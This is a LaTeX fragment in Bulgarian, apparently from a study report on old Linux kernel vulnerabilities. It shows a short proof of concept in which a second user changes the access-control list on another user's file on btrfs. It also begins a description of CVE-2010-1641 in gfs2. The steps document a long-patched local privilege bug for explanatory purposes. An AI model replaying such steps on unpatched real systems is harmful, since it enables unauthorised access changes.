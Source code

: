 \documentclass[a4paper,12pt,leqno]{article}
\begin{document}
\begin{itemize}
    \item Тип: \textit{privileges escalation}
    \item Съществува от: 2008-01-14
  	\item Добива публичност: 2010-05-18
    \item Оправен: 2010-06-11\footnote{\url{http://git.kernel.org/?p=linux/kernel/git/torvalds/linux-2.6.git;a=commitdiff;h=2f26afba}}
\end{itemize}

\subsection{Exploit}
\paragraph{}
В следващия exploit от Shi Weihua е показано, как на практика може да се 
случи обяснената по-горе ситуация.

\begin{verbatim}
# su user1
# cd btrfs-part/
# touch aaa
# getfacl aaa
  # file: aaa
  # owner: user1
  # group: user1
  user::rw-
  group::rw-
  other::r--
# su user2
# cd btrfs-part/
# setfacl -m u::rwx aaa
# getfacl aaa
  # file: aaa
  # owner: user1
  # group: user1
  user::rwx           вижда се, че успешно е променен user-а на файл aaa
  group::rw-
  other::r—
\end{verbatim}
\paragraph{}
При нормални обстоятелства не би трябвало \textit{user2} да може да променя 
списъка за достъп на \textit{user1}.


\section{CVE-2010-1641 CVSS Score 4.6}
\subsection{Описание}
\paragraph{}
Функцията \textit{do\_gfs2\_set\_flags} в \textit{fs/gfs2/file.c} от Linux ядрото преди версия 2.6.34-
git10 не проверява кой е собственикът на даден файл, което позволява на локални потребители да заобиколят предвидените ограничения на достъп чрез системното извикване setflags ioctl.
\end{document}
